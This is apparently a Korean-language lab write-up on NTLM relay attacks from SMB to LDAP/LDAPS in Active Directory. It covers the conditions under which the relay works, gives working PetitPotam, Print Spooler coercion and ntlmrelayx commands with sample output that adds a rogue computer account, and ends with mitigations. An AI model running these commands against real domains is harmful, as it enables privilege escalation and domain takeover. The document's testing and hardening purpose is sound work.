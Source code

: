 # SMB to LDAP/S

강제 인증, LLMNR/NBT-NS 기반의 NTLM 릴레이 공격은 피해자 서버로부터 SMB 인증 트래픽을 받아 타겟 서버의 LDAP 서비스로 릴레이 한다. 이때 공격자는 액티브 디렉토리의 LDAP 정보 덤프, 컴퓨터 계정 추가, Delegation 등을 통한 권한 상승 공격을 진행할 수 있다.

단, SMB to SMB 에 비해 SMB to LDAP(S) 는 필요 조건들이 더 많다. 따라서 webdav, mitm6, 혹은 wpad 릴레이를 통한 HTTP to LDAP(S) 가 더 자주 사용되는 편이다. 그러나 SMB to LDAP(S) 또한 공격에 성공할 경우 도메인 진입 혹은 도메인 장악이 가능하기 때문에 주의가 필요하다.

### 조건

* NTLMv2 SMB -> LDAP: 타겟이 CVE-2019-1040에 취약 + LDAP Signing - Enabled/Disabled (Required 면 불가능)
* NTLMv2 SMB -> LDAPS: 타겟이 CVE-2019-1040에 취약 + EPA Disabled (LDAP Signing 은 enabled/disabled/required 상관 없이 가능)
* NTLMv1 SMB -> LDAP: LDAP Signing Enabled/Disabled (Required 면 불가능). 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.
* NTLMv1 SMB -> LDAPS: 조건 없음, 가능. 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.

### NTLMv2 SMB -> LDAP(S)

#### 트리거 - 강제 인증 - Petitpotam

```
python3 PetitPotam.py -u '' -p '' 192.168.40.132 192.168.40.150
```

#### 트리거- LLMNR/NBT-NS 포이즈닝

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.

#### 릴레이 - CVE-2019-1040에 취약할 경우

```
impacket-ntlmrelayx -t ldap://192.168.40.160 -smb2support --add-computer --no-dump --no-da --no-acl --no-validate-privs --remove-mic

[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
[*] Authenticating against ldap://192.168.40.160 as CHOI/DC01$ SUCCEED
[*] Adding new computer with username: UAZZYGGM$ and password: lEE_wdrh2JD7T!M result: OK
```

### NTLMv1 SMB -> LDAP(S)

#### 트리거 - 강제 인증 - Print Spooler

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.132 192.168.40.150
```

#### 트리거 - LLMNR/NBT-NS 포이즈닝

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.

#### 릴레이

<pre><code>./ntlmrelayx.py -t ldap://192.168.40.160 -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic

<strong>[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
</strong>[*] Authenticating against ldap://192.168.40.160 as / SUCCEED
</code></pre>

### 대응 방안

1. NTLMv2 - CVE-2019-1040 관련된 패치를 진행한다. 이는 도메인 컨트롤러들의 기본적인 윈도우 패치만 실행하더라도 패치되는 취약점이다.
2. NTLMv2 - LDAP Signing 을 Required 로 설정한다. GPO 를 이용하는 것이 좋다.

`(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>
